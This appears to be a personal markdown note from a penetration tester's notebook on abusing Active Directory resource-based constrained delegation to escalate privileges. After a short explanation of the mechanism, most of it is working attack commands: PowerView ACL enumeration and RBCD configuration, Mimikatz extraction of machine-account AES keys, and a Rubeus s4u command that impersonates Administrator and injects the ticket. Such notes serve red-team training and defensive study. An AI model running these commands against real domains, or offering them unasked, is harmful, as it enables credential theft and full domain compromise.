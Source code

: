 ```yaml
---
tags:
  - privesc
cssclasses:
  - Rubeus
  - s4u
  - MimiKatz
  - ActiveDirectory
  - Module
---
```

![[Kerberos_Delegation.svg]]]
- Resource Based [[Constrained Delegation]]
- This moves delegation authority to the resource/service administrator
- Instead of SPNs on `msDs-AllowedToDelegateTo` on the front-end service like the web service in this example, access in this case is controlled by security descriptor of `msDS-AllowedToActOnBehalfOfOtherIdentity` (visible as `PrincipalsAllowedToDelegateToAccount`) on the resource/service.
- That is, the resource/service administrator can configure this delegation whereas for other types, SeEnableDelegation privileges are required which are, by default, available only to Domain Admins.
- The security descriptor on the second hop can determine who can access it, not the first hop.

To abuse RBCD in the most effective form, we just need two privileges
1. Write permissions over the target service or object to configure msDs-AllowedtoActOnBehalfOfOtherIdentity
2. Control over an object which has SPN configured (like admin access to a domain joined machine or ability to join a machine to domain - ms-DS-machineQuota is 10 for all domain users)

```powershell title:"Enumeration that shows users with Write permissions"
Find-InterestingDomainACL | ?{$_.identityreferencename -match 'username'}
```

```powershell title:"Check for RBCD"
Get-DomainRBCD
```

```powershell title:"Configure RBCD on a machine for users (PowerView)"
Set-DomainRBCD -Identity computer-name -DelegateFrom your-foothold
```

```powershell title:"Configure RBCD on a machine for users (ActiveDirectory Module)"
$machine_accounts = 'pwned-machine-account1$', 'pwned-machine-account2$'
Set-ADComputer -Identity computer-name -PrincipalsAllowedToDelegateToAccount $machine_accounts
```

```powershell title:"Get the privileges of the machine accounts by extracting its AES keys"
Invoke-MimiKatz -Command '"sekurlsa::ekeys"'
```

```batch title:"Use the AES key of the machine account(s) and access computer-name with ANY user we want"
Rubeus.exe s4u /user:machine-account1$ /aes256:<aes256_key> /msdsspn:service/computer-name /impersonateuser:Administrator /ptt
```



